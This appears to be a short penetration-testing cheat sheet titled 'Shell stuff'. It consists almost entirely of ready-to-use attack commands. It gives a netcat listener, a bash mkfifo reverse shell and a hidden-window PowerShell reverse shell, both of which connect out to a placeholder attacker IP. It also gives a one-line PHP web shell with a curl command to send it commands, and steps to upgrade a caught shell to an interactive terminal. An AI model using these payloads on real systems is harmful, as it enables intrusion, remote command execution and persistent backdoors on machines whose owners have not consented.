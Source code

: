 # Shell stuff

## Reverse Shell ([Online App](https://www.revshells.com))
- netcat
```
nc -lvnp 1234
```
Payloads:
- Bash (Linux)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MY IP} {PORT} >/tmp/f
```
- PowerShell (Windows)
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("{MY IP}",{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Web Shell 
- web browser/curl
```
curl http://{YOURWEBSITE}/payload.php?cmd={COMMANDS}
```
Payloads:
```
<?php system($_REQUEST["cmd"]); ?>
```

## Getting interactive shell:
- In netcat
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> press `Ctrl +Z`
```
stty raw -echo
fg
```
> press `Enter`
